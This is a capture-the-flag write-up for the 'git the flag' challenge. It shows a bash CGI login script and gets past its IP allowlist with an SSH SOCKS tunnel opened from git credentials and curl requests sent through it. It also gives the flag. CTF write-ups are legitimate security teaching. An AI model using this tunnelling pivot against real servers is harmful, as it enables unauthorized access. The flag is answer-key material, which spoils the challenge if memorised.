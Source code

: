 [By p4-team](https://github.com/p4-team/ctf/tree/master/2020-05-10-spam-and-flags-teaser/git_the_flag)
# git the flag (misc, 96 pts, 58 solved)

This challenge is a CGI server and served its own source code using git.
The code that we're supposed to hack looks like this:

```bash
#!/bin/bash
set -euo pipefail
source /etc/config.ini
no_cache(){
    echo -ne "Pragma-directive: no-cache\n";
    echo -ne "Cache-directive: no-cache\n";
    echo -ne "Cache-control: no-cache\n";
    echo -ne "Pragma: no-cache\n";
    echo -ne "Expires: 0\n";
    echo -ne "Content-type: text/html\n\n"
}

success() {
    rm -f /tmp/login_session.txt
    cp /proc/sys/kernel/random/uuid /tmp/login_session.txt 2>&1
    echo -ne "Status: 302 Moved Temporarily\n"
    echo -ne "Set-Cookie: session=$(cat /tmp/login_session.txt)\n"
    echo -ne "Location: /cgi-bin/setup.cgi\n\n"
    exit
}

fail() {
    echo -ne "Content-type: text/html\n\n"

    echo "<html>"
    echo "<head><title>Omegalink login</title>"
    echo "<body><center>"
    echo "<h1>Login unsuccessful.</h1>"
    echo "<h3>Reason: $1</h3>"
    echo "<p><a href=/>Click here to try again</a></p>"
    echo "<p>This incident will be reported</p>"
    echo "</center></body>"
    echo "</html>"
    exit
}

parse_query() {
    saveIFS=$IFS
    IFS='=&'
    parm=($QUERY_STRING)
    IFS=$saveIFS

    declare -gA query_params
    for ((i=0; i<${#parm[@]}; i+=2))
    do
        query_params[${parm[i]}]="${parm[i+1]}"
    done
}

check_name_and_password() {
    pw_hash=$(echo -n "${query_params[password]}" | md5sum | cut -d ' ' -f 1)
    if [[ "${query_params[name]}" != $USERNAME || "$pw_hash" != $PASSWORD_HASH ]]; then
        fail "Wrong username or password"
    fi
}

check_remote_ip() {
    if [[ ! "$REMOTE_ADDR" =~ $ALLOWED_REMOTES ]]; then
        fail "$REMOTE_ADDR is not authorized to enter this site."
    fi
}

parse_query
check_name_and_password
check_remote_ip
success
```

There are two checks - check for name and password, and remote_ip.

The name and password was `admin` and `admin`. The author of this writeup
wasted some time, because the random md5 database he used didn't find it
for some weird reason (even though even google does)...

Anyway, the second check was harder. It was implemented correctly, so we had to
step back a bit. We remembered, that git clone works via ssh, we had credentials(given)
that authenticated us to the server (to clone the code), and that ssh
allows any authenticated user to create a socks proxy.

So we quickly create one:

```bash
$ ssh git@35.234.131.107 -p 22222 -D 9090 "git-receive-pack '/code.git'"
```

And then two quick curls (what are webbrowsers for anyway?) are enough ftw:

```
curl "http://127.0.0.1/cgi-bin/login.cgi?name=admin&password=admin" -x socks5://127.0.0.1:9090 -vvv
curl "http://127.0.0.1/cgi-bin/setup.cgi" -x socks5://127.0.0.1:9090 -vvv --cookie session=fa3cc064-cf79-4691-a122-9723ae7fc79
```

And the flag is:

```
SaF{lmgtfy:"how to serve git over ssh"}
```
